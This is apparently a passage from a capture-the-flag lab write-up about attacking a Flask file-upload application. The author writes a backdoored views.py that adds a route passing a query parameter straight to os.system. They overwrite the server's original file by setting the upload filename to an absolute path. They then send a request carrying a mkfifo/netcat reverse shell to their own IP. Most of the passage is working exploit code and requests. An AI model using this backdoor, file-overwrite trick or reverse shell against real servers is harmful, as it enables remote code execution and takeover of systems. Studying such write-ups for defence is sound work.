 And from `utils.py` we find two interesting comments.
```bash
Pass filename and return a secure version, which can then safely be stored on a regular file system.

TODO: get unique filename
```

The theory is that we can create our own code in `views.py`, upload it to replace the original file and thus granting code execution.

Create my own custom `views.py`:
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/e')
def exec_cmd():
    return os.system(request.args.get('cmd'))
```

Upload the file and capture the POST request, forward it to repeater and change `filename` parameter to `/app/app/views.py` to write over the original file.
```http
Content-Disposition: form-data; name="file"; filename="/app/app/views.py"
```

We should now be able to execute os-commands. Testing several different reverse shells I finally find one that works.
```http
GET /e?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.15.17+4488+%3E/tmp/f HTTP/1.1
Host: 10.129.69.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
